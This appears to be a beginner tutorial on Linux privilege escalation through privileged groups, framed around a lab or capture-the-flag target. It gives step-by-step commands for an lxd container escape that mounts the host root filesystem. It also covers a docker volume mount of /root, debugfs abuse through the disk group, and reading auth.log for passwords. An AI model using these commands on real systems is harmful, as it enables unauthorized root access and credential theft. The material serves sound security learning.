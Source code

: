 ## What Are Privileged Groups?

In Linux, some **groups** have **extra powers**.
If your user is part of one of these special groups, you might be able to:

✅ Read sensitive files  
✅ Run commands as **root**  
✅ Access or change important system data

These groups include:

- `lxd`   : Create containers with root access to the host
- `docker` : Run containers and mount host folders (full access)
- `disk` : Access system disks, bypass everything
- `adm` : Read log files (can leak sensitive info)

Let’s look at what each one means and how it can help you **escalate privileges** (become root).

---
## What is LXD / LXC?

- **LXC (Linux Containers)** and **LXD (Linux Daemon)** are tools that let you create **lightweight virtual environments** called **containers**.
- Containers are **isolated** from the rest of the system, but they **share the same Linux kernel**.
- Think of it like running a mini Linux system inside a real one – like opening a new computer inside your current computer.

## 🧠 Why This Matters for Privilege Escalation?

If your user is part of the **`lxd` group**, it means you can manage and create these containers.  
But here's the trick:

> You can make a special container that has access to the **host system’s files as root**, allowing you to **escape the container and become root** on the host!

1. type `id` command and Make sure you're in the `lxd` group first:
2. Import the Alpine image you can download it from internet for now we have this in target system `alpine-v3.18-x86_64-20230607_1234.tar.gz`
   
```bash
lxc image import alpine-v3.18-x86_64-20230607_1234.tar.gz --alias alpescape
```
   
3. Confirm it was imported
```bash
lxc image list
```
   
   You should see a line for `alpescape`.
   
4. Create a **privileged container** from the image
```bash
lxc init alpescape privesc -c security.privileged=true
```
   This creates a new container called `privesc` with **privileged access** (important!).
   
5. Mount the host root `/` inside the container
```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
   This lets the container access the host's full file system at `/mnt/root`.
   
6. Start the container
   ```bash
lxc start privesc
```
   
7. Get a shell inside the container
```bash
lxc exec privesc /bin/sh
```
_(Alpine uses `/bin/sh` instead of `/bin/bash`)_

8. Access the host system's root directory
```bash
ls /mnt/root
cd /mnt/root/root
cat flag.txt
```
___
## 🐳 Docker Group – Almost Root Access

If you're in the `docker` group:

- You can start a Docker container and **mount the host's folders** inside it.
Example:
```bash
docker run -v /root:/mnt -it ubuntu
```

This command:
- Creates a new container
- Mounts the host’s `/root` folder
- Let’s you browse `/mnt` from inside the container and access `/root` on the host

➡️ You can grab root's SSH keys or edit critical files.
---
## 💽 Disk Group – Direct Access to Disks

If you're in the `disk` group:

- You can access **raw disks** like `/dev/sda1`
- You can use tools like `debugfs` to:
    - Read or write any file
    - Dump password files
    - Add users


➡️ This group is dangerous. Total system access.
---
## 📜 ADM Group – Read System Logs

If you're in the `adm` group:

- You can read log files in `/var/log`
- Example:
```bash
cat /var/log/auth.log
```

While this doesn’t give direct root access, you can:

- Find passwords in logs
- See who is logging in
- Spot cron jobs or scripts running as root

➡️ It's useful for **gathering info** that may help you **escalate later**.


